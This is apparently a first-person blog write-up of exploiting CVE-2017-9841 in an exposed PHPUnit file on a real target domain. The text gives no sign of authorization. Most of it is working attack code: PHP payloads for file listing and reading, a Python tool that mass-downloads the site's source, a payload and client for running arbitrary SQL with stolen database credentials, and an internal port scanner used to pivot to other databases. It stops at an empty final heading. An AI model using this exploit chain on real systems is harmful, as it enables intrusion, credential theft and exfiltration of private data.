## Finding the vulnerability
During routine exploration of vulnerable servers, I discovered the presence of CVE-2017-9841 on a target domain using [Nuclei](https://github.com/projectdiscovery/nuclei) with the [`http/cves/2017/CVE-2017-9841.yaml`](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2017/CVE-2017-9841.yaml) template. The scanner flagged an exposed PHPUnit utility script under the `/vendor` tree.<br />
<br />
## What CVE-2017-9841 is
`Util/PHP/eval-stdin.php` in PHPUnit (before 4.8.28 and 5.x before 5.6.3) allows remote attackers to execute arbitrary PHP code sent in an HTTP POST body beginning with `<?php `. This is usually exposed when an application leaves its `vendor` folder web-accessible, so the `eval-stdin.php` file can be requested directly. Knowing this enabled me to submit PHP payloads via the POST body to the vulnerable endpoint.<br />
<br />
## Attempts at full Remote Code Execution
I attempted several approaches to obtain a shell (using `system`, `exec`, `passthru`, etc.), but each attempt yielded the same error: **Call to undefined function**.<br />
<br />
Inspecting `phpinfo()` revealed a long list of disabled functions via `disable_functions` — including many common command-execution functions and other potentially dangerous calls. That constrained direct command execution from PHP.<br />
<br />
I also attempted to identify the running user with `get_current_user()` and explored options such as adding SSH keys to an account, but SSH was not available on the host and many web-server users are configured with shells like `/sbin/nologin`, so those avenues were not feasible.<br />
<br />
Editing cronjobs to gain code execution was also not possible in this environment.
## Using PHP payloads for nondestructive access
> The shell wasn’t there — the attack surface was. You don’t always need a shell to reach the prize.
<!-- -->
### Listing directories and reading files
Because direct command execution was blocked, I focused on file-system access via PHP, which allowed enumeration and content retrieval of files. PHP payloads used:
* Listing Directory
```php
<?php
    $files = scandir($_GET['dir']);
    print_r($files);
?>
```

* Reading Files
```php
<?php
	echo file_get_contents($_GET['file'])
?>
```

### Downloading source code
After locating the web-root, I saved the above PHP scripts as `list_dir.php` and `get_file.php` and wrote a small Python tool to recursively download directory contents. The downloader iterated directory listings and fetched files, saving them locally.
```python
#! /usr/bin/env python3

import os, sys, requests
from pathlib import Path
from urllib.parse import quote, urlparse
from colorama import Fore

cwd = Path.cwd()
files_dir = cwd / "files"
files_dir.mkdir(exist_ok=True)

with open("list_dir.php", 'r') as file:
	list_dir_php_payload = file.read()
with open("get_file.php", 'r') as file:
	get_file_php_payload = file.read()
not_allowed_dirs = [".", ".."]

def get_file(url, file):
	response = requests.post(f"{url}?file={quote(file)}", data=get_file_php_payload)
	data = response.text.strip()
	if data == "" or ": (errno " in data or "<b>Warning</b>" in data or "/www/wwwroot/REDACTED/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php" in data:
		return False
	dir_name = '/'.join(file.split('/')[:-1])
	dir = files_dir / dir_name[1:]
	dir.mkdir(exist_ok=True, parents=True)
	with open(f"files{file}", 'wb') as file:
		file.write(response.content)
	return True
def list_dir(url, dir):
	response = requests.post(f"{url}?dir={quote(dir)}", data=list_dir_php_payload)
	data = response.text.strip()
	if data == "" or ": (errno " in data or "<b>Warning</b>" in data or "/www/wwwroot/REDACTED/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php" in data:
		return False
	files = [line.split('>')[1][1:] for line in data.split('\n') if '>' in line]
	for not_allowed in not_allowed_dirs:
		if not_allowed in files:
			files.remove(not_allowed)
	return files

if __name__ == "__main__":
	url = sys.argv[1]
	dir_path = sys.argv[2]
	dirs = [dir_path]
	while len(dirs) != 0:
		new_dirs = []
		for dir in dirs:
			current_dir_listing = list_dir(url, dir)
			if current_dir_listing == False:
				continue
			print(f"{Fore.YELLOW}[*] LISTING DIR => {dir}{Fore.RESET}")
			files = [f"{dir}/{file}" for file in current_dir_listing]
			for file in files:
				status = get_file(url, file)
				if status:
					print(f"{Fore.GREEN}[+] DOWNLOADED FILE => {file}{Fore.RESET}")
				else:
					new_dirs.append(file)
		dirs = new_dirs
```
Running that tool produced a local copy of the site’s source code and configuration files.<br />
<br />
## Source code analysis & discovery of database credentials
Within the downloaded source code I discovered database connection details (IP address and credentials) stored in configuration files. The database IP was a private class-A address, indicating it lived on an internal network and could not be accessed directly from the internet.<br />
<br />
## Pivoting to the database via the compromised host
> A compromised host is a bridge — sometimes it’s all you need to cross into a private world.
<!-- -->
Using the compromised web host as a pivot/proxy, I verified the credentials and connected to the database by running simple PHP database-connection payloads from the web host.<br />
Verification payload used:
```php
<?php
$servername = "localhost";
$username = "username";
$password = "password";

// Create connection
$conn = new mysqli($servername, $username, $password);

// Check connection
if ($conn->connect_error) {
  die("Connection failed: " . $conn->connect_error);
}
echo "Connected successfully";
?> 
```
This showed the server could connect to the database.<br />
<br />
To execute arbitrary queries and extract data, I used another PHP payload that accepts a `query` parameter and returns JSON results. That payload:
```php
<?php
$servername = "SERVER";
$username = "USERNAME";
$password = "PASSWORD";
$dbname = "DATABASE";

// Create connection
$conn = new mysqli($servername, $username, $password, $dbname);

// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

// Retrieve the query parameter from the GET request
if (isset($_GET['query'])) {
    $query = $_GET['query'];

    // Execute the query
    $result = $conn->query($query);

    if ($result === TRUE) {
        // If the query was successful but no data is returned
        echo json_encode(["message" => "Query executed successfully."]);
    } elseif ($result !== FALSE) {
        // If it's a SELECT query, fetch the data and return it in JSON format
        $data = [];
        $fields = $result->fetch_fields(); // Get column names (field info)

        // Create a structured array to hold the result rows
        while ($row = $result->fetch_assoc()) {
            $data[] = $row;
        }

        // Output the result as JSON
        echo json_encode([
            "columns" => array_map(function($field) { return $field->name; }, $fields),
            "data" => $data
        ], JSON_PRETTY_PRINT);
    } else {
        // Error in query execution
        echo json_encode(["error" => "Error: " . $conn->error]);
    }
} else {
    // No query provided
    echo json_encode(["error" => "No query provided!"]);
}

// Close connection
$conn->close();
?>
```
<br />
I wrapped that into a small Python utility to run queries and save results locally for analysis.
```python
#! /usr/bin/env python3

import os, sys, json, requests
from hashlib import md5
from pathlib import Path
from colorama import Fore
from getpass import getpass
from urllib.parse import quote, urlparse

with open("db_connector.php", 'r') as file:           # Above PHP Payload for executing queries
	php_payload = file.read()

cwd = Path.cwd()
output_folder = cwd / "queries"
output_folder.mkdir(exist_ok=True)

if not os.path.isfile("query_mappings.tsv"):
	with open("query_mappings.tsv", 'w') as file:
		file.write("QUERY\tFILE\n")

if __name__ == "__main__":
	if len(sys.argv) != 5:
		print("Usage: python3 db_connector.py url server username db_name")
		exit(0)

	url = sys.argv[1]
	server = sys.argv[2]
	username = sys.argv[3]
	db_name = sys.argv[4]
	password = getpass()

	php_payload = php_payload.replace("SERVER", server)
	php_payload = php_payload.replace("USERNAME", username)
	php_payload = php_payload.replace("PASSWORD", password)
	php_payload = php_payload.replace("DATABASE", db_name)

	print(f"Type 'exit' to exit")
	while True:
		try:
			query = input(f"{Fore.GREEN}{urlparse(url).netloc}{Fore.RESET} => {Fore.BLUE}{username}{Fore.RED}@{Fore.CYAN}{server}{Fore.RESET}> ")
			if query == "exit":
				break
			query_hash = md5(query.encode()).hexdigest()
			response = requests.post(f"{url}?query={quote(query)}", data=php_payload)
			data = json.loads(response.text)
			with open(f"queries/{query_hash}.json", 'w') as file:
				json.dump(data, file)
			os.system(f"cat queries/{query_hash}.json | jq")
			with open("query_mappings.tsv", 'a') as file:
				file.write(f"{query}\t{query_hash}\n")
		except Exception as error:
			print(f"{Fore.RED}[-] ERROR OCCURED => {error}{Fore.RESET}")
```
<br />
<br />
### Looking for other databases on the private network
Because the database lived on a private network, I probed the internal network (from the compromised host) for other database servers. For that I deployed a small port-checking PHP script to test connectivity to hosts/ports internally:
```php
<?php
function check_port($host, $port, $timeout = 5) {
  $connection = @stream_socket_client("tcp://$host:$port", $errno, $errstr, $timeout);
  if (is_resource($connection)) {
    fclose($connection);
    return true;
  } else {
    return false;
  }
}

$host = $_GET['ip'];
$port = $_GET['port'];
$timeout = isset($_GET['timeout']) ? $_GET['timeout'] : 5;

if (check_port($host, $port, $timeout)) {
  echo "open\n";
} else {
  echo "closed\n";
}
?>
```
Using the above, I scanned internal addresses and found multiple hosts with MySQL (port 3306) open. With further checks, two of those were reachable and contained the same dataset (one appeared to be a backup).<br />
<br />
<br />
<br />
<br />
## Attack Path Visualization
